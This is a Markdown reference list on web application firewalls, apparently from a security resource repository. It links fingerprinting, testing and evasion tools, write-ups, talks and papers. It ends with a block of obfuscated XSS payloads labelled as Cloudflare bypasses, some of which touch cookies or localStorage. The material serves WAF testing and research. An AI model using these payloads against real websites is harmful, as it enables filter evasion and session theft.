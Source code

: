 # Web Application Firewall

[Awesome-WAF](https://github.com/0xInfection/Awesome-WAF) - The Definitive Guide.

### Fingerprinting

* [WhatWaf](https://github.com/Ekultek/WhatWaf) - Detect and bypass web application firewalls and protection systems
* [WAFW00F](https://github.com/enablesecurity/wafw00f) - The ultimate WAF fingerprinting tool with the largest fingerprint database from [@EnableSecurity](https://github.com/enablesecurity).
* [IdentYwaf](https://github.com/stamparm/identywaf) - A blind WAF detection tool which utlises a unique method of identifying WAFs based upon previously collected fingerprints by [@stamparm](https://github.com/stamparm).

### Testing

* [XSS-Rat's WAF Checklist](https://github.com/The-XSS-Rat/SecurityTesting/blob/master/Checklists/WAF-bypass-checklist.md) - Everything you need to do to bypass a Web Application Firewall.
* [GoTestWAF](https://github.com/wallarm/gotestwaf) - A tool to test a WAF's detection logic and bypasses from [@wallarm](https://github.com/wallarm).
* [Lightbulb Framework](https://github.com/lightbulb-framework/lightbulb-framework) - A WAF testing suite written in Python.
* [WAFBench](https://github.com/microsoft/wafbench) - A WAF performance testing suite by [Microsoft](https://github.com/microsoft).
* [WAF Testing Framework](https://www.imperva.com/lg/lgw\_trial.asp?pid=483) - A WAF testing tool by [Imperva](https://imperva.com).
* [Framework for Testing WAFs (FTW)](https://github.com/coreruleset/ftw) - A framework by the [OWASP CRS team](https://coreruleset.org/) that helps to provide rigorous tests for WAF rules by using the OWASP Core Ruleset V3 as a baseline.
* [abuse-ssl-bypass-waf](https://github.com/LandGrey/abuse-ssl-bypass-waf) - Bypassing WAF by abusing SSL/TLS Ciphers

### Evasion

* [WAFNinja](https://github.com/khalilbijjou/wafninja) - A smart tool which fuzzes and can suggest bypasses for a given WAF by [@khalilbijjou](https://github.com/khalilbijjou/).
* [WAFTester](https://github.com/Raz0r/waftester) - Another tool which can obfuscate payloads to bypass WAFs by [@Raz0r](https://github.com/Raz0r/).
* [libinjection-fuzzer](https://github.com/migolovanov/libinjection-fuzzer) - A fuzzer intended for finding `libinjection` bypasses but can be probably used universally.
* [bypass-firewalls-by-DNS-history](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) - Firewall bypass script based on DNS history records. This script will search for DNS A history records and check if the server replies for that domain. Handy for bugbounty hunters.
* [abuse-ssl-bypass-waf](https://github.com/LandGrey/abuse-ssl-bypass-waf) - A tool which finds out supported SSL/TLS ciphers and helps in evading WAFs.
* [SQLMap Tamper Scripts](https://github.com/sqlmapproject/sqlmap) - Tamper scripts in SQLMap obfuscate payloads which might evade some WAFs.
* [Bypass WAF BurpSuite Plugin](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c) - A plugin for Burp Suite which adds some request headers so that the requests seem from the internal network
* Bypass Payloads
  * [https://github.com/waf-bypass-maker/waf-community-bypasses](https://github.com/waf-bypass-maker/waf-community-bypasses)
  * [https://github.com/Walidhossain010/WAF-bypass-xss-payloads](https://github.com/Walidhossain010/WAF-bypass-xss-payloads)

### Blogs and Writeups

> Many of the content mentioned above have been taken from some of the following excellent writeups.

* [Web Application Firewall (WAF) Evasion Techniques #1](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8) - By [@Secjuice](https://www.secjuice.com).
* [Web Application Firewall (WAF) Evasion Techniques #2](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0) - By [@Secjuice](https://www.secjuice.com).
* [Web Application Firewall (WAF) Evasion Techniques #3](https://www.secjuice.com/web-application-firewall-waf-evasion/) - By [@Secjuice](https://www.secjuice.com).
* [How To Exploit PHP Remotely To Bypass Filters & WAF Rules](https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/)- By [@Secjuice](https://secjuice.com)
* [ModSecurity SQL Injection Challenge: Lessons Learned](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/modsecurity-sql-injection-challenge-lessons-learned/) - By [@SpiderLabs](https://trustwave.com).
* [XXE that can Bypass WAF](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0) - By [@WallArm](https://labs.wallarm.com).
* [SQL Injection Bypassing WAF](https://www.owasp.org/index.php/SQL\_Injection\_Bypassing\_WAF) - By [@OWASP](https://owasp.com).
* [How To Reverse Engineer A Web Application Firewall Using Regular Expression Reversing](https://www.sunnyhoi.com/reverse-engineer-web-application-firewall-using-regular-expression-reversing/) - By [@SunnyHoi](https://twitter.com/sunnyhoi).
* [Bypassing Web-Application Firewalls by abusing SSL/TLS](https://0x09al.github.io/waf/bypass/ssl/2018/07/02/web-application-firewall-bypass.html) - By [@0x09AL](https://twitter.com/0x09al).
* [Request Encoding to Bypass WAFs](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2017/august/request-encoding-to-bypass-web-application-firewalls/) - By [@Soroush Dalili](https://twitter.com/irsdl)

### Video Presentations

* [WAF Bypass Techniques Using HTTP Standard and Web Servers Behavior](https://www.youtube.com/watch?v=tSf\_IXfuzXk) from [@OWASP](https://owasp.org).
* [Confessions of a WAF Developer: Protocol-Level Evasion of Web App Firewalls](https://www.youtube.com/watch?v=PVVG4rCFZGU) from [BlackHat USA 12](https://blackhat.com/html/bh-us-12).
* [Web Application Firewall - Analysis of Detection Logic](https://www.youtube.com/watch?v=dMFJLicdaC0) from [BlackHat](https://blackhat.com).
* [Bypassing Browser Security Policies for Fun & Profit](https://www.youtube.com/watch?v=P5R4KeCzO-Q) from [BlackHat](https://blackhat.com).
* [Web Application Firewall Bypassing](https://www.youtube.com/watch?v=SD7ForrwUMY) from [Positive Technologies](https://ptsecurity.com).
* [Fingerprinting Filter Rules of Web Application Firewalls - Side Channeling Attacks](https://www.usenix.org/conference/woot12/workshop-program/presentation/schmitt) from [@UseNix](https://www.usenix.com).
* [Evading Deep Inspection Systems for Fun and Shell](https://www.youtube.com/watch?v=BkmPZhgLmRo) from [BlackHat US 13](https://blackhat.com/html/bh-us-13).
* [Bypass OWASP CRS && CWAF (WAF Rule Testing - Unrestricted File Upload)](https://www.youtube.com/watch?v=lWoxAjvgiHs) from [Fools of Security](https://www.youtube.com/channel/UCEBHO0kD1WFvIhf9wBCU-VQ).
* [WAFs FTW! A modern devops approach to security testing your WAF](https://www.youtube.com/watch?v=05Uy0R7UdFw) from [AppSec USA 17](https://www.youtube.com/user/OWASPGLOBAL).
* [Web Application Firewall Bypassing WorkShop](https://www.youtube.com/watch?v=zfBT7Kc57xs) from [OWASP](https://owasp.com).
* [Bypassing Modern WAF's Exemplified At XSS by Rafay Baloch](https://www.youtube.com/watch?v=dWLpw-7\_pa8) from [Rafay Bloch](http://rafaybaloch.com).
* [WTF - WAF Testing Framework](https://www.youtube.com/watch?v=ixb-L5JWJgI) from [AppSecUSA 13](https://owasp.org).
* [The Death of a Web App Firewall](https://www.youtube.com/watch?v=mB\_xGSNm8Z0) from [Brian McHenry](https://www.youtube.com/channel/UCxzs-N2sHnXFwi0XjDIMTPg).
* [Adventures with the WAF](https://www.youtube.com/watch?v=rdwB\_p0KZXM) from [BSides Manchester](https://www.youtube.com/channel/UC1mLiimOTqZFK98VwM8Ke4w).
* [Bypassing Intrusion Detection Systems](https://www.youtube.com/watch?v=cJ3LhQXzrXw) from [BlackHat](https://blackhat.com).
* [Building Your Own WAF as a Service and Forgetting about False Positives](https://www.youtube.com/watch?v=dgqUcHprolc) from [Auscert](https://conference.auscert.org.au).

### Presentations & Research Papers

#### Research Papers:

* [Protocol Level WAF Evasion](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Qualys%20Guide%20-%20Protocol-Level%20WAF%20Evasion.pdf) - A protocol level WAF evasion techniques and analysis by [Qualys](https://www.qualys.com).
* [Neural Network based WAF for SQLi](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Artificial%20Neural%20Network%20based%20WAF%20for%20SQL%20Injection.pdf) - A paper about building a neural network based WAF for detecting SQLi attacks.
* [Bypassing Web Application Firewalls with HTTP Parameter Pollution](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Bypassing%20Web%20Application%20Firewalls%20with%20HTTP%20Parameter%20Pollution.pdf) - A research paper from [Exploit DB](https://exploit-db.com) about effectively bypassing WAFs via HTTP Parameter Pollution.
* [Poking A Hole in the Firewall](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Poking%20A%20Hole%20In%20The%20Firewall.pdf) - A paper by [Rafay Baloch](https://www.rafaybaloch.com) about modern firewall analysis.
* [Modern WAF Fingerprinting and XSS Filter Bypass](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Modern%20WAF%20Fingerprinting%20and%20XSS%20Filter%20Bypass.pdf) - A paper by [Rafay Baloch](https://www.rafaybaloch.com) about WAF fingerprinting and bypassing XSS filters.
* [WAF Evasion Testing](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/SANS%20Guide%20-%20WAF%20Evasion%20Testing.pdf) - A WAF evasion testing guide from [SANS](https://www.sans.org).
* [Side Channel Attacks for Fingerprinting WAF Filter Rules](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Side%20Channel%20\(Timing\)%20Attacks%20for%20Fingerprinting%20WAF%20Rules.pdf) - A paper about how side channel attacks can be utilised to fingerprint firewall filter rules from [UseNix Woot'12](https://www.usenix.org/conference/woot12).
* [WASC WAF Evaluation Criteria](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/WASC%20WAF%20Evaluation%20Criteria.pdf) - A guide for WAF Evaluation from [Web Application Security Consortium](http://www.webappsec.org).
* [WAF Evaluation and Analysis](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Web%20Application%20Firewalls%20-%20Evaluation%20and%20Analysis.pdf) - A paper about WAF evaluation and analysis of 2 most used WAFs (ModSecurity & WebKnight) from [University of Amsterdam](http://www.uva.nl).
* [Bypassing all WAF XSS Filters](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Evading%20All%20Web-Application%20Firewalls%20XSS%20Filters.pdf) - A paper about bypassing all XSS filter rules and evading WAFs for XSS.
* [Beyond SQLi - Obfuscate and Bypass WAFs](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Beyond%20SQLi%20-%20Obfuscate%20and%20Bypass%20WAFs.txt) - A research paper from [Exploit Database](https://exploit-db.com) about obfuscating SQL injection queries to effectively bypass WAFs.
* [Bypassing WAF XSS Detection Mechanisms](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Bypassing%20WAF%20XSS%20Detection%20Mechanisms.pdf) - A research paper about bypassing XSS detection mechanisms in WAFs.

#### Presentations:

* [Methods to Bypass a Web Application Firewall](https://github.com/0xInfection/Awesome-WAF/blob/master/presentrations/Methods%20To%20Bypass%20A%20Web%20Application%20Firewall.pdf) - A presentation from [PT Security](https://www.ptsecurity.com) about bypassing WAF filters and evasion.
* [Web Application Firewall Bypassing (How to Defeat the Blue Team)](https://github.com/0xInfection/Awesome-WAF/blob/master/presentation/Web%20Application%20Firewall%20Bypassing%20\(How%20to%20Defeat%20the%20Blue%20Team\).pdf) - A presentation about bypassing WAF filtering and ruleset fuzzing for evasion by [@OWASP](https://owasp.org).
* [WAF Profiling & Evasion Techniques](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/OWASP%20WAF%20Profiling%20&%20Evasion.pdf) - A WAF testing and evasion guide from [OWASP](https://www.owasp.org).
* [Protocol Level WAF Evasion Techniques](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/BlackHat%20US%2012%20-%20Protocol%20Level%20WAF%20Evasion%20\(Slides\).pdf) - A presentation at about efficiently evading WAFs at protocol level from [BlackHat US 12](https://www.blackhat.com/html/bh-us-12/).
* [Analysing Attacking Detection Logic Mechanisms](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/BlackHat%20US%2016%20-%20Analysis%20of%20Attack%20Detection%20Logic.pdf) - A presentation about WAF logic applied to detecting attacks from [BlackHat US 16](https://www.blackhat.com/html/bh-us-16/).
* [WAF Bypasses and PHP Exploits](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/WAF%20Bypasses%20and%20PHP%20Exploits%20\(Slides\).pdf) - A presentation about evading WAFs and developing related PHP exploits.
* [Side Channel Attacks for Fingerprinting WAF Filter Rules](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Side%20Channel%20Attacks%20for%20Fingerprinting%20WAF%20Filter%20Rules.pdf) - A presentation about how side channel attacks can be utilised to fingerprint firewall filter rules from [UseNix Woot'12](https://www.usenix.org/conference/woot12).
* [Our Favorite XSS Filters/IDS and how to Attack Them](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Our%20Favourite%20XSS%20WAF%20Filters%20And%20How%20To%20Bypass%20Them.pdf) - A presentation about how to evade XSS filters set by WAF rules from [BlackHat USA 09](https://www.blackhat.com/html/bh-us-09/).
* [Playing Around with WAFs](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Playing%20Around%20with%20WAFs.pdf) - A small presentation about WAF profiling and playing around with them from [Defcon 16](http://www.defcon.org/html/defcon-16/dc-16-post.html).
* [A Forgotten HTTP Invisibility Cloak](https://github.com/0xInfection/Awesome-WAF/blob/master/presentation/A%20Forgotten%20HTTP%20Invisibility%20Cloak.pdf) - A presentation about techniques that can be used to bypass common WAFs from [BSides Manchester](https://www.bsidesmcr.org.uk/).
* [Building Your Own WAF as a Service and Forgetting about False Positives](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Building%20Your%20Own%20WAF%20as%20a%20Service%20and%20Forgetting%20about%20False%20Positives.pdf) - A presentation about how to build a hybrid mode waf that can work both in an out-of-band manner as well as inline to reduce false positives and latency [Auscert2019](https://conference.auscert.org.au/).

## Attack Code

### Cloudflare Bypass

```
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg onload=alert%26%230000000040"")>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>
<svg onx=() onload=(confirm)(1)>

<svg onx=() onload=(confirm)(document.cookie)>

<svg onx=() onload=(confirm)(JSON.stringify(localStorage))>

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u -xss popup

<svg onload=alert%26%230000000040"1")>

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

<img ignored=() src=x onerror=prompt(1)>
```
